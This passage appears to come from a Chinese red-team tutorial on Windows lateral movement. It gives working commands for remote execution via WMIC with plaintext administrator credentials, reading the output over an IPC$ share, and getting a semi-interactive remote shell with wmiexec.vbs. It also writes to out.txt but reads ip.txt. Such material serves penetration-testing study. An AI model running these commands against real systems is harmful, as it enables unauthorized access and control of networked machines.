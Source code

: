 [![](assets/1702372940-f3ea83db67d33180a7529c48ebf8c0f3.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/6.png)

也可以使用目标系统的 cmd.exe 执行一条命令，将执行结果保存在 C 盘的 out.txt 文件中，

```bash
# 将文件内容写入到 out.txt
wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c ipconfig >c:\out.txt"
```

建立`ipc$`后，使用`type`命令读取执行结果：

```bash
net use \\192.168.91.178\ipc$ "Abcd1234" /user:administrator
type \\192.168.91.178\C$\ip.txt
```

#### [](#cscript "cscript")cscript[](#cscript)

利用系统内置命令，可获取`交互式shell`  
（`无法在cs中使用，因运行成功后会一直进行反弹连接，导致卡bug`）  
需上传 `wmiexec.vbs` 然后进入该服务器内进行执行。  
`Wmiexec.vbs`脚本通过 VBS 调用 WMI 来模拟 PsExec 功能。`wmiexec.vbs`可以在远程系统中执行命令并进行回显，获得远程主机的`半交互式shell`

**提供账号密码，执行如下命令：**

```bash
cscript //nologo wmiexec.vbs /shell 192.168.91.178 username password
```
